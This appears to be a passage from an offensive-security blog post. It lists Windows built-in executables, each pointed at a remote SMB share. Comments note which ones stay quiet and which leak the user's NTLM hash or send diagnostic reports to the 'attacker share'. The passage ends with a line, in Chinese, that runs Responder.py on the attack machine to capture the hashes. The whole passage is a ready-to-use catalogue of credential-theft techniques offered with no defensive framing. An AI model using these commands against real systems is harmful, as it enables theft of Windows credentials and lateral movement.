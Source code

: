 ```bash
DevToolsLauncher.exe GetFileListing \\host\share #(this one's cool. will return a file listing (json-formatted) from remote SMB share...)
diskperf.exe \\host\share
dispdiag.exe -out \\host\share
doskey.exe /MACROFILE=\\host\share
esentutl.exe /k \\host\share
expand.exe \\host\share
extrac32.exe \\host\share
FileHistory.exe \\host\share #(noisy, pops a gui)
findstr.exe * \\host\share
fontview.exe \\host\share #(noisy, pops an error dialog)
fvenotify.exe \\host\share #(noisy, pops an access denied error)
FXSCOVER.exe \\host\share #(noisy, pops GUI)
hwrcomp.exe -check \\host\share
hwrreg.exe \\host\share
icacls.exe \\host\share
LaunchWinApp.exe \\host\share #(noisy, will pop an explorer window with the  contents of your SMB share.)
licensingdiag.exe -cab \\host\share
lodctr.exe \\host\share
lpksetup.exe /p \\host\share /s
makecab.exe \\host\share
MdmDiagnosticsTool.exe -out \\host\share #(sends hash, and as a *bonus!* writes an MDMDiagReport.html to the attacker share with full CSP configuration.)
mshta.exe \\host\share #(noisy, pops an HTA window)
msiexec.exe /update \\host\share /quiet
msinfo32.exe \\host\share #(noisy, pops a "cannot open" dialog)
mspaint.exe \\host\share #(noisy, invalid path to png error)
mspaint.exe \\host\share\share.png #(will capture hash, and display the remote PNG file to the user)
msra.exe /openfile \\host\share #(noisy, error)
mstsc.exe \\host\share #(noisy, error)
netcfg.exe -l \\host\share -c p -i foo
```
* 攻击机配置开启 SMB 后执行：$ sudo python Responder.py -I eth0 -v
![90](/img/post/Xnip2020-12-11_11-02-33.png)
